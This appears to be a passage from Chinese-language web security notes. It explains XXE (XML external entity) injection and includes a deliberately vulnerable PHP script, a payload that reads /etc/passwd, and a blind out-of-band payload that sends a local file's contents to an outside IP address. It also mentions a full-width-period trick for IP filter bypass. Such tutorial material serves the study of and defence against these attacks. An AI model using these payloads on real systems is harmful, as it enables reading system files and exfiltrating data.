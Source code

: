 
##### 9、利用句号 127。0。0。1  >>>  127.0.0.1
## 十 xxe漏洞
#### 漏洞原理
######　XXE Injection即XML External Entity Injection,也就是XML外部实体注入攻击.漏洞是在对非安全的外部实体数据进行处理时引发的安全问题.在XML1.0标准里,XML文档结构里定义了实体(entity)这个概念.实体可以通过预定义在文档中调用,实体的标识符可访问本地或远程内容.如果在这个过程中引入了”污染”源,在对XML文档处理后则可能导致信息泄漏等安全问题
####　造成的漏洞
##### 导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等危害。
####漏洞检测
#####传输数据Burp抓包content-type为xml可能存在
第一步检测XML是否会被成功解析
第二步检测服务器是否支持DTD引用外部实体
#### 測試代碼
```php
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);
echo $xml->name;
?>
```
##### 測試代码一，直接回显
```php
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```
![Alt text](64.png)
##### 测试playload二，通过对攻击者网站的请求直接携带数据 无回显
```
#访问请求
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://132.232.75.90:8000/1.xml">
%remote;]>
#1.xml中
<!ENTITY % a SYSTEM "file:///F:/1.txt">
<!ENTITY % b "<!ENTITY &#37; c SYSTEM 'http://132.232.75.90:8000/%a;'>"> %b; %c
```